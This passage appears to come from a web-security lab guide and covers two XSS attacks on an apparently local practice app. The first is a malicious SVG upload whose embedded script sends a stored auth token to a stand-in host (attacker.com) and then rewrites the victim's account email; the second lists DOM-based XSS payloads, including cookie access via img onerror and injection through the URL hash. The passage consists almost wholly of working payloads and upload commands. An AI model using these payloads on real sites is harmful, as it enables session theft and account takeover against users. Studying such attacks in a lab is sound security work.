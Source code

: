 #### Attack 4: XSS via SVG Upload

```bash
# Create malicious SVG
cat > xss.svg << 'EOF'
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" 
  "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" xmlns="http://www.w3.org/2000/svg">
  <script type="text/javascript">
    <![CDATA[
    // Execute arbitrary JavaScript
    alert('XSS via SVG!');
    
    // Steal authentication token
    var token = localStorage.getItem('token');
    fetch('https://attacker.com/steal?token=' + token);
    
    // Perform actions as the victim
    fetch('/wcorp/api/user/update', {
        method: 'POST',
        headers: {
            'Authorization': 'Bearer ' + token,
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({
            email: 'hacked@attacker.com'
        })
    });
    ]]>
  </script>
  <circle cx="100" cy="100" r="50" fill="red"/>
  <text x="100" y="105" text-anchor="middle" fill="white">Click Me!</text>
</svg>
EOF

# Upload SVG
curl -X POST http://localhost:3000/wcorp/api/upload \
  -H "Authorization: Bearer <token>" \
  -F "file=@xss.svg"
```

#### Attack 5: DOM-Based XSS

```javascript
// If the application uses dangerouslySetInnerHTML or innerHTML
// Open browser console on the site and execute:

// Inject script via DOM manipulation
const div = document.createElement('div');
div.innerHTML = '<img src=x onerror="alert(document.cookie)">';
document.body.appendChild(div);

// Modify existing elements
document.querySelector('.username').innerHTML = '<img src=x onerror="alert(\'XSS\')">';

// Via URL hash
// Navigate to: http://localhost:3000/wcorp/#<img src=x onerror=alert(1)>
// If the app reads location.hash without sanitization
```

